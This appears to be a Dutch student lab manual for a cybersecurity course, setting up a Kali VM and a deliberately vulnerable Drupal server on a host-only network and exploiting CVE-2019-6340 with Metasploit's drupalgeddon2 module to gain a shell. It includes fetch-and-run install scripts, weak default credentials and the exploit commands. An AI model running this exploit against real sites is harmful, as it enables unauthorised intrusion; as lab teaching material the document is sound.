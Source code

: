 # CSV-NPE-2223

Cybersecurity &amp; Virtualisation - NPE Opdracht 2022-2023

# Deployment manual

## 1. VM installaties

### Informatie

- De VM's zijn geconfigureerd met een host-only netwerk adapter
- De installatie vereist een internet connectie

### Setup op host machine

- Download volgende vdi-bestanden van osboxes.org:

  - [Kali Linux 2022.3](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
  - [Debian 11 - Desktop](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/64bit.7z/download)

- Unzip de vdi-bestanden rechtstreeks in de download folder de huidige gebruiker
- Check of de vdi-bestanden de volgende namen hebben:

  - Kali Linux 2022.3 (64bit).vdi
  - Debian 11 (64bit).vdi

- Voer de volgende commando's uit in powershell op de host machine:

  ```powershell
    curl https://jobbe.be/csv-npe-2223/vm-install.sh -out vm-install.ps1
    ./vm-install.ps1
  ```

## 2. Drupal installatie

### Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

### Informatie

- De exploit is beschikbaar op [exploit-db](https://www.exploit-db.com/exploits/46510)
- De exploit veroorzaakt een unserialize() fout in de `Drupal 7/8 RESTful Web Services` module, waardoor we een remote command execution kunnen uitvoeren
- Deze manual gebruikt de `drupal_drupalgeddon2` [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) van metasploit om de exploit uit te voeren.

### Setup op Debian VM

- Log in op de Debian VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Installeer de mysql repository en selecteer in de prompt `debian buster` en en `mysql-5.7` als versie van mysql:

  ```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb
  ```

- Download en run het installatie script:

  ```bash
    wget https://jobbe.be/csv-npe-2223/drupal-install.sh
    chmod +x drupal-install.sh
    sudo ./drupal-install.sh
  ```

- Na de installatie is drupal beschikbaar op `http://localhost/index.php`
- Configureer Drupal met de volgende gegevens:

  - Database name: `drupal`
  - Database username: `drupal`
  - Database password: `password`
  - Site name: `drupal`
  - Site email address: `drupal@localhost.be`
  - Username: `drupal`
  - Password: `drupal`
  - Default country: `Belgium`
  - Default timezone: `Europe/Brussels`

- Verwijder de standaard web pagina in /var/www/html:

  ```bash
    sudo rm -rf /var/www/CybersecurityNPE2023.local/index.html
  ```

- Activeer de volgende modules onderaan in de `Modules` pagina van Drupal:

  - `Entity API`
  - `RESTful Web Services`

- Deactiveer de enp0s3 netwerk adapter en activeer de enp0s8 netwerk adapter in de instellingen van de Debian VM

- Check het ip-adres van de Debian VM met het volgende commando:

  ```bash
    ip a
  ```

## 3. Metesploit

### Exploit op Kali VM

- Log in op de Kali VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Deactiveer de enp0s3 netwerk adapter en activeer de enp0s8 netwerk adapter in de instellingen van de Kali VMs

- Open een terminal en voer volgende commando's uit:

  ```bash
    sudo msfdb init
    sudo msfconsole
  ```

- Voer volgende commando's uit in de metasploit console om de host te in te stellen (vervang xxx.xxx.xxx.xxx met het ip-adres van de Debian VM):

  ```bash
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOSTS xxx.xxx.xxx.xxx
    set VERBOSE true
    check
  ```

- Voer volgende commando's uit in de metasploit console om de exploit uit te voeren:

  ```bash
    run
  ```

- Als de exploit succesvol is uitgevoerd, kan je een shell openen met volgende commando's:

  ```bash
    whoami
    ls
  ```

